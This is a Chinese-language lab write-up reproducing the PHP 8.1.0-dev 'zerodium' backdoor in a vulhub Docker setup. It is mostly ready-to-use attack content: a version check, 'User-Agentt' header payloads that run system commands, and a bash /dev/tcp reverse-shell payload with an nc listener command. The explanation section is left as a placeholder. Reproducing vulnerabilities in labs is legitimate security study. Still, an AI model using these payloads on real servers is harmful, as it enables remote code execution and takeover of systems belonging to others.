

## 构建

``` shell
cd vulhub/php/8.1-backdoor
docker-compose up -d 
```

## 漏洞原理
toadd

## PoC（Proof of Concept） 验证漏洞存在的代码
版本验证：PHP 8.1.0-dev
请求站点，response返回版本信息

```http
HTTP/1.1 200 OK
Connection: close
Content-Type: text/html; charset=UTF-8
Date: Wed, 28 Aug 2024 12:51:06 GMT
Host: 127.0.0.1:8081
X-Powered-By: PHP/8.1.0-dev  #

hello world
```
## Exp（Exploit）进行实际的攻击利用
添加特定字段User-Agentt
payload 漏洞利用载荷：

```http
User-Agentt: zerodiumvar_dump(233*233); #将返回执行结果 int(54289)
User-Agentt: zerodiumsystem("ls");
```

执行截图：



成功执行代码ls


### 建立反弹shell（成功）：

**靶机**构造payload：
```http
User-Agentt: zerodiumsystem("bash -c 'exec bash -i >& /dev/tcp/127.0.0.1/8999 0>&1'");
```
**接收反弹Shell机器**执行：**`nc -lvvp 8999`**


注意：
**接收反弹Shell机器** 监听端口防火墙要放行，任意ip能访问，安装nc
**靶机** 能够执行bash命令，且访问到监听机


## 复现总结

### 

